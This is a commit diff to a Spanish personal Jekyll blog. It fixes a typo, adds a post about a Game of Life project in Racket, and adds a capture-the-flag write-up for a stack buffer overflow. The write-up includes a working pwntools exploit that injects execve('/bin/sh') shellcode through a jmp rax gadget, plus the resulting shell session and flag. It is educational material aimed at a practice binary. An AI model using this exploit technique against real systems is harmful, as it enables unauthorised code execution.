

Before and after one commit to naibu3/naibu3.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high, scrolled down 394 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
New post BTSCTF

````diff
--- a/_posts/2025-01-5-DotDotDot-Iris-CTF-2025.md
+++ b/_posts/2025-01-5-DotDotDot-Iris-CTF-2025.md
@@ -5,7 +5,7 @@ comments: true
 categories: [RF, Writeups, IrisCTF]
 ---
 
-Llevaba tiempo siin subir ningún post, y qué mejor forma de empezar el año que con un writeup del [Iris CTF](https://ctftime.org/event/2503/). Este es un ejercicio de una categoría que se ve extremadamente poco, y dado que tenía poco tiempo, es el único que pude resolver.
+Llevaba tiempo sin subir ningún post, y qué mejor forma de empezar el año que con un writeup del [Iris CTF](https://ctftime.org/event/2503/). Este es un ejercicio de una categoría que se ve extremadamente poco, y dado que tenía poco tiempo, es el único que pude resolver.
 
 <br>
 
--- /dev/null
+++ b/_posts/2025-01-7-Juego-de-la-Vida-en-Scheme.md
@@ -0,0 +1,95 @@
+---
+layout: post
+title: Juego de la Vida en Scheme
+comments: true
+categories: [Programación]
+---
+
+Esta mañana he finiquitado una de las últimas asignaturas que me quedan de carrera, *Programación Declarativa*. Lo que me quedaba era exponer un pequeño proyecto que teníamos que hacer como conclusión. Como no quería complicarme, me decanté por una implementación del [Juego de la Vida de Conway](https://es.wikipedia.org/wiki/Juego_de_la_vida).
+
+Antes de empezar, dejaros como curiosidad que si poneis `juego de la vida de conway` en google, veréis un pequeño *easter egg*.
+
+<br>
+
+![Image]({{ site.baseurl }}/images/posts/trabajo-PD/titulo.png){:width="400px"}
+
+<br>
+
+# Introducción
+
+La idea del trabajo era profundizar en el desarrollo en el lenguaje Scheme y el uso de librerías gráficas. Por ello, la aplicación implementa el Juego de la Vida, permitiendo:
+
+- Modificar las reglas del Juego.
+- Generar tableros vacíos/aleatorios (con diferente nivel de entropía)
+- Importar/exportar tableros a ficheros
+- Poder modificar el tablero en tiempo real
+- Detener y reanudar el juego
+- Ajustar la velocidad del juego
+
+Por suerte, el paradigma **declarativo** es muy versátil para este programa en concreto. De forma que tendremos un código bastante corto y entendible.
+
+## El Juego de la Vida
+
+Aunque no pretendo profundizar en qué es el ***Juego de la Vida*** de Conway, debemos explicarlo brevemente. Aunque se llame "*Juego*", no es un juego como tal, sino una simulación que dado un estado inicial de un conjunto de celdas en una cuadrícula, evoluciona de forma "*orgánica*" hacia estados más complejos. A este tipo de sistemas se les conoce como [Autómatas celulares](https://es.wikipedia.org/wiki/Aut%C3%B3mata_celular).
+
+En concreto, el Juego de la Vida, define dos estados para cada celda:
+
+- Viva (negro)
+- Blanca (muerta)
+
+Y en cada iteración, las casillas evolucionan en base a las siguientes reglas:
+
+- **Supervivencia**: Una célula viva permanece viva si tiene **exactamente 2 o 3 vecinos vivos**.
+- **Muerte por soledad**: Una célula viva muere si tiene **menos de 2 vecinos vivos**.
+- **Muerte por sobrepoblación**: Una célula viva muere si tiene **más de 3 vecinos vivos**.
+- **Nacimiento**: Una célula muerta se convierte en una célula viva si tiene **exactamente 3 vecinos vivos**.
+
+Con tan sólo estas reglas y una entrada inicial, el sistema evoluciona hacia estados que pueden alcanzar un nivel de complejidad altísimo.
+
+# Implementación
+
+El código completo se puede encontrar en [mi perfil de Github](https://github.com/naibu3). Aunque vamos a ver lo más importante. En cuanto a módulos,
+tenemos por una parte la lógica del juego y por otro, la interfaz gráfica. Para llamar al programa lo hacemos desde `main.rkt`.
+
+## Lógica del juego
+
+Gracias a la modularidad y la capacidad de recursión que ofrece el lenguaje, el código es bastante corto y simple. Destaca sobre todo la función que calcula el siguiente estado del tablero, que es la encargada de englobar al resto:
+
+<br>
+
+![Image]({{ site.baseurl }}/images/posts/trabajo-PD/update-grid.png){:width="800px"}
+
+<br>
+
+Esta función toma una lista unidimensional de celdas y las dimensiones del tablero, y una regla que se aplicará a dicho tablero. De esta forma, podemos cambiar en cualquier momento las reglas que aplican al juego o incluso la topología del tablero.
+
+Sin embargo, para el trabajo, implementé la siguiente función:
+
+<br>
+
+![Image]({{ site.baseurl }}/images/posts/trabajo-PD/life-rule.png){:width="800px"}
+
+<br>
+
+## Interfaz gráfica
+
+Para la interfaz gráfica utilicé `racket/gui`, que a pesar de no ofrecer un nivel demasiado elevado de personalización, permite crear una interfaz más que funcional para el programa. El funcionamiento es similar al de otras librerías similares en otros lenguajes. El diagrama de ventanas es el siguiente:
+
+<br>
+
+![Image]({{ site.baseurl }}/images/posts/trabajo-PD/life-rule.png){:width="800px"}
+
+<br>
+
+
+Os dejo un ejemplo del menú principal:
+
+<br>
+
+![Image]({{ site.baseurl }}/images/posts/trabajo-PD/layout.png){:width="400px"}
+
+<br>
+
+Como he dicho, podeís ver el código completo en mi [GitHub](https://github.com/naibu3).
+
+<br>
--- /dev/null
+++ b/_posts/2025-02-10-Baby-PWN-BITSCTF2025.md
@@ -0,0 +1,154 @@
+---
+layout: post
+title: Baby PWN  BITSCTF2025
+comments: true
+categories: [pwn, Writeups, BITSCTF2025]
+---
+
+Más vale tarde que nunca, así que aquí tenéis este writeup de la competición de este finde pasado. En este caso se trata de un ejercicio tipo *re2shellcode* bastante sencillito.
+
+<br>
+![Image]({{ site.baseurl }}/images/posts/BITSCTF.png){:width="150px"}
+<br>
+
+# Overview
+
+El enunciado nos dice lo siguiente:
+
+    I hope you are having a nice day.
+
+Y se nos adjunta un binario `main`.
+
+# Reconocimiento
+
+Lo primero es analizar el binario:
+
+```bash
+❯ file main
+main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
+interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e2d574448024e277d4b9a662d470bef9bbab8b3d,
+for GNU/Linux 3.2.0, not stripped
+
+❯ checksec --file=main
+[*] '/home/kali/Downloads/baby_pwn/main'
+    Arch:       amd64-64-little
+    RELRO:      Partial RELRO
+    Stack:      No canary found
+    NX:         NX unknown - GNU_STACK missing
+    PIE:        No PIE (0x400000)
+    Stack:      Executable
+    RWX:        Has RWX segments
+    SHSTK:      Enabled
+    IBT:        Enabled
+    Stripped:   No
+```
+
+Vemos que es de 64-bits y tenemos todas las protecciones desactivadas. Si descompilamos tendríamos un código como el siguiente:
+
+```c
+#include <stdio.h>
+
+void vuln() {
+    char buffer[112]; // 0x70 bytes de espacio reservado en la pila
+    gets(buffer);     // Buffer overflow
+}
+
+int main() {
+    vuln();
+    return 0;
+}
+
+```
+
+Dado que no hay protecciones y tenemos tanto margen para explotar el *buffer overlow*, podemos tratar de ejecutar un *shellcode*. Para ello necesitamos un gadget que llame al shellcode:
+
+```bash
+❯ ropper -f main
+[...]
+0x00000000004010ac: jmp rax;
+```
+
+La idea será introducir un payload con la siguiente estructura:
+
+```
+NOPs | shellcode | jmp rax
+```
+
+De forma que al saltar al registro, con algo de suerte tendrá dentro los NOPs, que se ejecutarán hasta llegar al shellcode.
+
+# Explotación
+
+Con la estrategia en mente, utilizaremos *python3* y *pwntools* para hacer un script:
+
+```python
+#!/bin/python3
+
+from pwn import *
+
+binary = './main'  # Nombre del binario
+elf = ELF(binary)
+
+# p = remote('direccion.ip', puerto)
+p = process(binary)
+
+#0x00000000004010ac: jmp rax;
+jmp_addr = 0x4010ac
+
+shellcode = asm('''
+                xor rax, rax
+                xor rbx, rbx
+
+                mov rbx, 0x68732f6e69622f
+                push rbx
+
+                mov rdi, rsp
+                xor rsi, rsi
+                xor rdx, rdx
+
+                mov rax, 0x3b
+                syscall
+                ''',arch='amd64')
+
+offset = 120
+padding = b'\x90' * (offset-len(shellcode))
+
+payload = padding + shellcode + p64(jmp_addr)
+
+print(payload)
+
+print("[+] Enviando exploit...")
+
+p.sendline(payload)
+
+p.interactive()
+```
+
+Si ejecutamos el solver obtenemos lo siguiente:
+
+```bash
+❯ ./solver.py
+[*] '/home/kali/Downloads/baby_pwn/main'
+    Arch:       amd64-64-little
+    RELRO:      Partial RELRO
+    Stack:      No canary found
+    NX:         NX unknown - GNU_STACK missing
+    PIE:        No PIE (0x400000)
+    Stack:      Executable
+    RWX:        Has RWX segments
+    SHSTK:      Enabled
+    IBT:        Enabled
+    Stripped:   No
+[+] Opening connection to chals.bitskrieg.in on port 6001: Done
+b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90H1\xc0H1\xdbH\xbb/bin/sh\x00SH\x89\xe7H1\xf6H1\xd2H\xc7\xc0;\x00\x00\x00\x0f\x05\xac\x10@\x00\x00\x00\x00\x00'
+[+] Enviando exploit...
+[*] Switching to interactive mode
+$ ls
+flag.txt
+main
+main.c
+run
+$ cat flag.txt
+BITSCTF{w3lc0m3_70_7h3_w0rld_0f_b1n4ry_3xpl01t4t10n_ec5d9205}
+```
+
+Este es un reto sencillo, pero que es muy común en competiciones, así que espero que te haya quedado claro. Nos vemos en el siguiente writeup!
````
Also changed, not shown: images/posts/BITSCTF.png (added), images/posts/trabajo-PD/layout.png (added), images/posts/trabajo-PD/life-rule.png (added), images/posts/trabajo-PD/titulo.png (added), images/posts/trabajo-PD/update-grid.png (added), images/posts/trabajo-PD/ventanas.png (added).
